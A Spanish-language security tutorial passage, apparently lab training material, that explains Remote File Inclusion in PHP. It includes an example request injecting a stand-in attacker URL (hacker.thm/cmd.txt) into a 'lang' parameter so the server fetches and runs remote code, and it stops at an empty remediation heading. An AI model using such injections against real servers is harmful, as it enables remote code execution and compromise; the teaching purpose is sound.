



Inclusión remota de archivos - RFI
La Inclusión Remota de Archivos ( RFI ) es una técnica para incluir archivos remotos en una aplicación vulnerable. Al igual que la LFI, la RFI se produce al sanear incorrectamente la entrada del usuario, lo que permite a un atacante
inyectar una URL externa en la funciona include. Un requisito para la RFI es que la opcion allow_url_fopen esté activada .
El riesgo de RFI es mayor que el de LFI, ya que las vulnerabilidades de RFI permiten a un atacante obtener la Ejecución Remota de Comandos ( RCE exitoso ) en el servidor. Otras consecuencias de un ataque de RFI incluyen:
Un servidor externo debe comunicarse con el servidor de aplicaciones para que un ataque RFI tenga éxito. El atacante aloja archivos maliciosos en su servidor. Posteriormente, el archivo malicioso se inyecta en la función include
mediante solicitudes HTTP y su contenido se ejecuta en el servidor de aplicaciones vulnerable.

La figura anterior muestra un ejemplo de los pasos para un ataque RFI exitoso. Supongamos que el atacante aloja un archivo PHP en su propio servidor
http://hacker.thm/cmd.txt donde contiene el mensaje "Hola THM"

Primero el atacante injecta la URL maliciosa, http://webapp.thm/index.php?lang=http://hacker.thm/cmd.txt
Si no hay validación de entrada, la URL maliciosa pasa a la función de inclusión. A continuación, el servidor de la aplicación web enviará una solicitud GET al servidor malicioso para obtener el archivo. Como resultado, la aplicación web incluye
el archivo remoto en la función de inclusión para ejecutar el archivo PHP dentro de la página y enviar el contenido de la ejecución al atacante. En nuestro caso, la página actual debe mostrar el mensaje "Hello THM" en algún lugar.
Remediacion
